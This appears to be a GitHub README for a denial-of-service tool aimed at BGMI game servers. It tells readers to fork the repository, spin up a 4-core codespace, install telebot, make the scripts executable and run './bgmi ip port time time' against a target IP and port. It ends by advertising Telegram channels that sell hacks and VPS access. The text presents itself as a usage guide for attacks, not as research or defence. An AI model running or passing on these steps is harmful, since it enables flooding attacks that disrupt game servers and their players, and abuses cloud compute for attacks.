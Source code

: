 All people use old or new script if works that's fine!

If u want to attack directly using terminal follow some steps - Click on fork repository! After create codespace of 4 core after creating open terminal just run 2 command only one time 1- pip install telebot 2- chmod +x *

Then attack with command by- ./bgmi ip port time time example- ./bgmi 20.192.168.20 23477 200 200

U have to determine the time two time Then delite terminal bash to stop attack -thankyou keep supporting Must join- venomCHA7.t.me Wanna buy hacks vps or anything dm - DarkLeoAttack.t.me
